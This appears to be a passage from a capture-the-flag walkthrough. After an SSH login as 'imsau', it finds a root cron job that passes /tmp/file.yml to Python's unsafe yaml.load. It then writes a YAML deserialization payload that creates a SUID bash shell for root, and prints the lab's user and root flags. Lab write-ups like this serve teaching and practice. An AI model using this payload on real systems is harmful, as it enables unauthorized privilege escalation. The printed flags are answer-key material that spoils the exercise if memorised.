 **Message: Glad to see you here.Congo, you bypassed it. 'imsau' is waiting for you somewhere.**

Looks like `imsau` is an username.

ssh -i id_rsa imsau@$IP

# user.txt

```
1c5ccb6ce6f3561e302e0e516c633da9
```

# Further Enumeration

We got /opt/scripts and a `file.py`

```
#!/usr/bin/python
import yaml


class Execute():
	def __init__(self,file_name ="/tmp/file.yml"):
		self.file_name = file_name
		self.read_file = open(file_name ,"r")

	def run(self):
		return self.read_file.read()

data  = yaml.load(Execute().run())
```

We can't find any cron.Let's transfer pspy. Running pspy64 we got a hit

```
CMD: UID=0    PID=26656  | /bin/sh -c cd /opt/scripts && sudo /usr/bin/python /opt/scripts/file.py && sudo rm -f /tmp/file.yml 
```

But we can't edit file.py. While trying to execute it we get an error!

```
Traceback (most recent call last):
  File "/opt/scripts/file.py", line 13, in <module>
    data  = yaml.load(Execute().run())
  File "/opt/scripts/file.py", line 8, in __init__
    self.read_file = open(file_name ,"r")
IOError: [Errno 2] No such file or directory: '/tmp/file.yml'
```

yaml.load is deprecated, we can use system commands as such!

# file.yml

```
!!python/object/apply:os.system ["cp /bin/bash /tmp/bash; chmod +s /tmp/bash;"]
```

We are root!!

# root.txt

```
5d45f08ee939521d59247233d3f8faf
```